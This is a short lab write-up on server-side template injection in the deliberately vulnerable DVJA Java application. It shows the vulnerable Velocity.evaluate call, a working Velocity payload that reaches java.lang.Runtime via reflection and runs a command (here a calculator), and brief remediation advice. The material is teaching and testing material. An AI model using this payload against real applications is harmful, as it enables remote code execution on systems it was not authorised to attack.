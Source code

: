 # SSTI

The application fails to perform any validation on the input as it takes the input and reflect it on the frontend as a welcome message. But before being reflected, the input is put through a template engine, in this case the Apache's Velocity template engine.

```java
//snippet in src/main/java/com/appsecco/dvja/controllers/TemplateAction.java
            if (Velocity.evaluate(context, writer, "test", name)) {
                System.out.println("velocity is running");;
            }

```

To test for SSTI in Velocity, we use the following payload to combine code injection and ssti:

```java
//substitute with your equivalent calculator
#set($e="e");$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("kcalc") 
```

Entering the payload causes the engine to pop us a calculator.
![ssti suceeded](../assets/ssti.png)
_Fig 1: SSTI payload succeeded_

## Solution

To fix this, we should avoid using functions such as evaluate and if possible avoid logic template all together. But if we have to implement logic template then we should have proper sandboxing and input sanitization
